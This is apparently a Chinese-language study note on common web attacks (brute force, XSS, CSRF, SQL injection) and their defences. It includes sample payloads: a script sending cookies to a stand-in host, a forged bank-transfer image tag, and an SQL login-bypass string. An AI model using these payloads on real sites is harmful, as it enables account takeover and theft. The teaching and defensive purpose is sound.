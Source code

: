 ## 攻击技术

### 暴力破解
连续性尝试+字典
一个有效的字典可以大大的提高暴力破解的效率。for example：常用账号密码弱口令
暴力破解防范措施：
1、是否要求用户设置了复杂的密码
2、是否每次尝试登陆都需要安全的验证码
3、是否对用户尝试登陆、试错的行为进行限制（例如，当天密码输入错误超过8次将该账号锁定）
4、双因素认证
关于安全的验证码设计：
验证码必须由后端生成，后端将验证码以图片的形式返回给前端，并把验证码文本放在缓存（例如redis缓存）当中，
前端请求后端，带着表单的同时带着用户填写的验证码与缓存的验证码做比对。

### xss
攻击原理
例如有一个论坛网站，攻击者可以在上面发布以下内容：
<script>location.href="//domain.com/?c=" + document.cookie</script>
之后该内容可能会被渲染成以下形式：
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的
Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个
Cookie 登录被攻击者的账号了。
危害
1、窃取用户的 Cookie
2、伪造虚假的输入表单骗取个人信息
3、显示伪造的文章或者图片
防范：过滤特殊字符
例如将 < 转义为 &lt;，将 > 转义为 &gt;，从而避免 HTML 和 Javascript 代码的运行。
富文本编辑器允许用户输入 HTML 代码，就不能简单地将 < 等字符进行过滤了，极大地提高了
XSS 攻击的可能性。
富文本编辑器通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，
从而不允许有攻击性的 HTML 代码的输入。

### csrf
攻击原理
假如一家银行用以执行转账操作的 URL 地址如下：
http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName。
那么，一个恶意攻击者可以在另一个网站上放置如下代码：
<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">。
如果有账户名为 Alice 的用户访问了恶意站点，而她之前刚访问过银行不久，登录信息尚未过期，那么她就会损失1000美元。

防范：添加校验Token
在访问敏感数据请求时，要求用户浏览器提供不保存在Cookie中，并且攻击者无法伪造
的数据作为校验。例如服务器生成随机数并附加在表单中，并要求客户端传回这个随机数。

### sql注入
概念
服务器上的数据库运行非法的SQL语句，主要通过拼接来完成。
攻击原理
例如一个网站登录验证的 SQL 查询代码为：
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
如果填入以下内容：
userName = "1' OR '1'='1";
passWord = "1' OR '1'='1";
那么 SQL 查询字符串为：
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
此时无需验证通过就能执行以下查询：
strSQL = "SELECT * FROM users;"
防范措施：
使用orm框架，例如mybatis
'#{}'方式能够很大程度防止sql注入。${}方式无法防止Sql注入。${}方式一般用于传入数据库对象，例如传入表名.
MyBatis是如何做到SQL预编译的呢？其实在框架底层，是JDBC中的PreparedStatement类在起作用，
PreparedStatement是我们很熟悉的Statement的子类，它的对象包含了编译好的SQL语句。这种
“准备好”的方式不仅能提高安全性，而且在多次执行同一个SQL时，能够提高效率。原因是SQL已编
译好，再次执行时无需再编译。
for example:
select * from student where student_name = #{name}
预编译后,会动态解析成一个参数标记符?：
select * from student where student_name = ?
而使用${}在动态解析时候，会传入参数字符串
select * from student where student_name = 'lyrics'
'#{}'这种取值是编译好SQL语句再取值---->先编译后取值
'${}'这种是取值以后再去编译SQL语句---->先取值后编译